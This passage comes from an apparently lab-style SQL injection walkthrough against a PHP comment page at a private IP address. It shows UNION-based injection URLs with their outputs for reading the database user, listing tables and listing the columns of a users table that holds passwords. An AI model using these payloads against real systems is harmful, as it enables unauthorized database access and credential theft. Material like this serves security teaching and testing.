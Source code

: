 Outputs

```
    ID     Lang     Name     Comment
    767    en       Tim      Crappy comment text
    1      2        3        5.1.30-community
```

#### [5] Current user for database connection

```
10.11.5.14/comment.php?id=767 union all select 1,2,3,4,user(),6
```

Outputs

```
    ID     Lang     Name     Comment
    767    en       Tim      Crappy comment text
    1      2        3        root@localhost
```

#### [6] List all tables in database

```
10.11.5.14/comment.php?id=767 union all select 1,2,3,4,table_name,6 FROM information_schema.tables
```

Outputs

```
    ID     Lang     Name     Comment
    767    en       Tim      Crappy comment text
    1      2        3        CHARACTER_SETS
    1      2        3        COLLATIONS
    ...(Truncated for space)...
    1      2        3        user
    ...(Truncated for space)...
    1      2        3        users
    1      2        3        user_pwd
```

#### [7] Display column names from a table

The `users` table looks most promising to reveal good info, so we start there.

```
http://10.11.5.14/comment.php?id=767 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name = 'users'
```

Outputs

```
    ID     Lang     Name     Comment
    767    en       Tim      Crappy comment text
    1      2        3        id
    1      2        3        name
    1      2        3        password
    1      2        3        country
```

